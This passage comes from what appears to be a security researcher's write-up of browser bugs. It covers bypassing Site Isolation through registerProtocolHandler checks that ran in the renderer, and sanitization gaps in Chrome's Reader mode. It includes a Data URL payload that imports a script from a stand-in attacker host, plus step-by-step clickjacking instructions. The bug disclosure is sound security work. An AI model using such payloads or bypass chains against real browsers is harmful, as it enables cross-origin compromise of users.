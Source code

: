 # Abusing Protocol Handler
Another idea I had was, what if I can use [_registerProtocolHandler_ API](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/registerProtocolHandler) to navigate any protocol to some bad URL (e.g. Data URL)? So, I checked their implementation, and following restrictions were bypassable/spoofable.

- The protocol/scheme must be in the [allow-list](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/registerProtocolHandler#Permitted_schemes):
  - This check was implemented inside a renderer process, and browser process only had deny-list check related to browser-handled schemes (e.g. _http:_, _https:_, etc).
- Destination URL has to be same-origin to the registering window
  - This check was also inside a renderer process, thus can be bypassed.
- User has to accept the permission prompt
  - The origin shown in the permission prompt was calculated using destination URL, which could be anything with #2 bypass.
  - A cross-origin iframe can call _registerProtocolHandler_ API.
  - The permission prompt shows no origin information if you pass a Data URL 😂
  <img src="{{ site.baseurl }}/assets/img/blog_img/site_isolation/blank_permission.png">

With these bypasses, an attacker can bypass Site Isolation with the following steps:
1. Request a protocol handler permission with the following Data URL as the destination URL.
- `data:text/html,<script>import('https://evil.example/renderer_exploit.js')</script>`
2. Clickjack a victim page which has a link to the custom protocol (e.g. _tel:_, _mailto:_, etc).
3. Clicking the link would navigate to the above Data URL, which would execute in the victim's renderer process.

<img src="{{ site.baseurl }}/assets/img/blog_img/site_isolation/proto.gif">

[This bug](https://bugs.chromium.org/p/chromium/issues/detail?id=971917) was fixed by adding appropriate checks in the browser process.

# Finding bugs in Reader mode through a security review
When Edge started building the [Reading View](https://docs.microsoft.com/en-us/microsoft-edge/dev-guide/browser-features/reading-view) experience, we decided to use [DOM Distiller](https://chromium.googlesource.com/chromium/dom-distiller#dom-distiller) which powers Reader mode in Chrome. I was curious about how DOM Distiller is implemented, so I started testing it.

Reader mode sanitizes HTML content from the site before rendering for good reading experience. While they tried to remove most of the dangerous tags (e.g. `script`, `style`, etc) many event handlers weren't properly sanitized (e.g. `<button onclick="alert(1)">`). And images and videos from the site could be rendered by design.

This essentially means if an attacker has a memory corruption bug in image or video parsing, or a CSP bypass, an attacker can compromise a Reader mode process or execute a script in the Reader mode.

Reader mode is rendered with `chrome-distiller:` scheme, where the host name is a <span style="color:DodgerBlue">GUID</span>, and the <span style="color:red">_url_</span> parameter pointing to the page to be distilled.

chrome-distiller://<span style="color:DodgerBlue">9a898ff4-b0ad-45c6-8da2-bd8a6acce25d</span>/?url=<span style="color:red">https://news.example</span>
